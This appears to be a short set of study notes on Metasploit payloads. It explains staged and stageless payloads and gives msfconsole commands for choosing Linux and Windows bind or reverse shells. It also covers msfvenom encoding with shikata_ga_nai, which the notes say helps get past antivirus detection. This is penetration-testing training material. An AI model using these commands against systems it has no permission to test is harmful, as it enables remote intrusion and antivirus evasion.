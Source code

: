 ## Payloads

Module that aids the exploit module in (typically) returning a shell to the attacker. Whether or not a payload is staged is represented by `/` in the payload name.

- Singles: contains the exploit and the entire shellcode 
- Stagers: staged payload that  typically used to set up a network connection between the attacker and victim and are designed to be small and reliable. 
- Stages: payload components that are downloaded by stager's modules.

in `msfconsole`

```bash
grep [search value 1] grep [search value 2] show payloads
set payload [no.]

show options
show encoders 	# See below
run
```

### Linux

- Staged (more stable):   

  `set payload linux/[x86/X64]/shell/[BIND/REVERSE]_tcp`

- Stageless (sthelthier): 

  `set payload linux/[x86/X64]/shell_[BIND/REVERSE]_tcp`

### Windows

- Staged (more stable):   

  `set payload windows/[EMPTY/X64]/shell/[BIND/REVERSE]_tcp`

- Stageless (sthelthier): 

  `set payload windows/[EMPTY/X64]/shell_[BIND/REVERSE]_tcp`

### Encoders

Encoders change the payload to:

-  run on different operating systems and architectures. 
-  remove hexadecimal opcodes known as `bad characters`.
-  help with the AV detection

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding.

`msfvenom` takes care of payload generation and Encoding, by adding the flag `-e`, e.g. if the architecture is `x86`:

```bash
-e x86/shikata_ga_nai
```

